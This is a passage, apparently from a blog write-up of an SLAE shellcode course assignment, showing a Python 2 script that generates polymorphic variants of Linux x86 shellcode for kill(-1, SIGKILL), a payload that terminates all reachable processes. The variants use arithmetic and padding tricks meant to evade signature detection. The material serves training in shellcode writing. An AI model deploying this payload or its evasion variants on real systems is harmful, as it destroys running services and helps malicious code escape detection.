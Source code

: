     # NOT* be considered in the SLAE assignment solutions.

    dl_value = randint(1, 255);
    ax_value = n * dl_value;

    val = socket.htons(ax_value);   # now the value is in network byte order
                                    # like the way it would be stored into
                                    # the stack
 
    hex_val = format(val, 'x');     
    mov_ax = "\\x66\\xb8\\x"+hex_val[0:2]+"\\x"+hex_val[2:4];
    mov_dl = "\\xb2\\x"+format(dl_value, 'x');
    div_dl = "\\xf6\\xf2";          

    code = mov_ax+mov_dl+div_dl;

    if mov_to_cl == True:
        code += "\\x89\\xc1";       # mov ecx, eax

    return code;


def create_add_shellcode():
    r1=randint(1, 36);
    r2=randint(1, 8);

    sc="\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb1\\x"+'{:02x}'.format(r1)+"\\x80\\xc1\\x"+'{:02x}'.format(37-r1)+"\\xb0\\x"+'{:02x}'.format(r2)+"\\x04\\x"+'{:02x}'.format(9-r2)+"\\x4b\\xcd\\x80";
    return sc;

def main(argv):
    shellcode="";

    try:
        opts, args=getopt.getopt(argv, "hsnNm", ["help", "shuffle", "nop", "nop-equivalent", "math"])
    except getopt.GetoptError:
        help()
        sys.exit(1)
    
    for opt, arg in opts:
        if opt in ('-h', '--help'):
            help()
            sys.exit(0)
        elif opt in ('-A', '--add'):
            shellcode=create_add_shellcode()
        elif opt in ('-s', '--shuffle'):
            shellcode=kill_shuffle()
        elif opt in ('-n', '--nop'):
            shellcode=kill_nop_dope()
        elif opt in ('-N', '--nop-equivalent'):
            shellcode=kill_nop_super_dope()
        elif opt in ('-m', '--math'):
            shellcode="\\x31\\xc0\\x31\\xdb\\x31\\xc9"+kill_div_for_mov(9, True)+kill_div_for_mov(37, False)+"\\x4b\\xcd\\x80";

    print "Shellcode: ", shellcode
    print "Length: ", len(shellcode)/4

if __name__ == "__main__":
    main(sys.argv[1:])


{%endhighlight%}
